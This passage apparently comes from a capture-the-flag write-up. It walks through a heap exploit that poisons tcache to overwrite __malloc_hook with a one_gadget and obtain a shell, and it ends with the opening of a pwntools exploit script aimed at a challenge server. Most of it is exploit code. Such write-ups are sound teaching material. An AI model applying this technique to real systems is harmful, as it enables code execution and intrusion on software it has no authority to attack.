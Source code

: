 The 2nd malloc will overwrite the fd pointer of the 0x40 chunk. This chunk too needs to be freed, so we also fake the
size.

```python
p.sendlineafter(b"length of meme:", str(0x10).encode())
payload = flat(
    libc_base + libc.sym.__malloc_hook, 0x61
)
p.sendlineafter(b"meme:", payload)
```

Now, the 3rd chunk (`c`) will be allocated, but in tcache 0x30 (`c = malloc(0x10 + 0x10)`). So it won't use the chunks
from 0x40 tcache. Then we can just allocate the last 2 chunks to get our arbitrary write and shell.

```python
p.sendlineafter(b"length of meme:", str(0x30).encode())
payload = flat(
    0x0, 0x61
)
p.sendlineafter(b"meme:", payload)

one_gadget = [
    0xe3afe, 0xe3b01, 0xe3b04
]
p.sendlineafter(b"length of meme:", str(0x30).encode())
payload = flat(
    libc_base + one_gadget[1]
)
p.sendlineafter(b"meme:", payload)

p.interactive()
```

## Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chal_patched")
libc = ELF("./lib/libc.so.6")

context.binary = exe
context.terminal = ["tmux", "splitw", "-h"]

if args.LOCAL:
    p = process([exe.path])
    if args.GDB:
        gdb.attach(p)
        pause()
else:
    p = remote("challs.nusgreyhats.org", 34567)

# good luck pwning :)
p.sendlineafter(b"length of meme:", str(0x500).encode())
payload = b"A"*0x3e0
payload += flat(
    0x0, 0x51,
)
payload += b"A"*(0x500 - 0x10 - len(payload))
payload += flat(
    0x0, 0x421,
)
```